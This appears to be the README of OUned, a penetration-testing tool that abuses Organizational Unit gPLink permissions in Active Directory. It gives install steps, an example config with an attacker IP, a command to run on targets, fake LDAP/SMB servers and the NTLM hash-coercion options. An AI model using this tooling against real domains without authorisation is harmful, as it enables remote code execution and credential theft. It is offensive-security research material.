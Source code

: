 # OUned

The OUned project, an exploitation tool automating Organizational Units ACLs abuse through gPLink manipulation.

For a detailed explanation regarding the principle behind the attack, the necessary setup as well as how to use the tool, you may refer to the
associated article:
https://www.synacktiv.com/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory

# Installation

Installation can be performed by cloning the repository and installing the dependencies:

```bash
$ git clone https://github.com/synacktiv/OUned
$ python3 -m pip install -r requirements.txt
```

# Configuration file

OUned arguments are provided through a configuration file - an example file is provided in the repository, `config.example.ini`.

Each entry is described by a comment, but for detailed configuration instruction, please refer to the article mentioned in the introduction above.
```ini
[GENERAL]
# The target domain name
domain=corp.com

# The target Organizational Unit name
ou=ACCOUNTING

# The username and password of the user having write permissions on the gPLink attribute of the target OU
username=naugustine
password=Password1

# The IP address of the attacker machine on the internal network
attacker_ip=192.168.123.16

# The command that should be executed by child objects
command=whoami > C:\Temp\accounting.txt

# The kind of objects targeted ("computer" or "user")
target_type=user


[LDAP]
# The IP address of the dummy domain controller that will act as an LDAP server
ldap_ip=192.168.125.245

# Optional (used for sanity checks) - the hostname of the dummy domain controller
ldap_hostname=WIN-TTEBC5VH747

# The username and password of a domain administrator on the dummy domain controller
ldap_username=ldapadm
ldap_password=Password1!

# The ID of the GPO (can be empty, only needs to exist) on the dummy domain controller
gpo_id=7B7D6B23-26F8-4E4B-AF23-F9B9005167F6

# The machine account name and password on the target domain that will be used to fake the LDAP server delivering the GPC
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
ldap_machine_name=OUNED$
ldap_machine_password=some_very_long_random_password_with_percent_signs_escaped

[SMB]
# The SMB mode can be embedded or forwarded depending on the kind of object targeted
smb_mode=forwarded

# The name of the SMB share. Can be anything for embedded mode, should match an existing share on SMB dummy domain controller for forwarded mode
share_name=synacktiv

# The IP address of the dummy domain controller that will act as an SMB server
smb_ip=192.168.126.206

# The username and password of a user having write access to the share on the SMB dummy domain controller
smb_username=smbadm
smb_password=Password1!

# The machine account name and password on the target domain that will be used to fake the SMB server delivering the GPT
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
smb_machine_name=OUNED2$
smb_machine_password=some_very_long_random_password_with_percent_signs_escaped
```

# OUned usage

The only mandatory argument when running OUned is the `--config` flag indicating the path to the configuration file.

The `--just-coerce` and `coerce-to` flags are used for SMB authentication coercion mode, in which OUned will force SMB authentication from
OU child objects to the specified destination - for more details, see the article linked in the introduction.

Regarding the `--just-clean` flag, see the next section.

```
python3 OUned.py --help

 Usage: OUned.py [OPTIONS]

╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --config               TEXT  The configuration file for OUned [default: None] [required]                                                                                      │
│    --skip-checks                Do not perform the various checks related to the exploitation setup                                                                              │
│    --just-coerce                Only coerce SMB NTLM authentication of OU child objects to the destination specified in the --coerce-to flag, or, if no destination is           │
│                                 specified, to a local SMB server that will print their NetNTLMv2 hashes                                                                          │
│    --coerce-to            TEXT  Coerce child objects SMB NTLM authentication to a specific destination - this argument should be an IP address [default: None]                   │
│    --just-clean                 This flag indicates that OUned should only perform cleaning actions from specified cleaning-file                                                 │
│    --cleaning-file        TEXT  The path to the cleaning file in case the --just-clean flag is used [default: None]                                                              │
│    --verbose                    Enable verbose output                                                                                                                            │
│    --help                       Show this message and exit.                                                                                                                      │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# About cleaning

By default and as explained in the article, OUned will perform cleaning actions and among others restore the original gPLink value in the target domain. In case the exploit could not exit properly, OUned creates a cleaning file each time the exploit is executed, that can be used later on to restore legitimate values by using the `--just-clean` flag; for instance:

```bash
$ python3 OUned.py --config config.example.ini --just-clean --cleaning-file cleaning/FINANCE/2024_04_14-05_02_46.txt
```
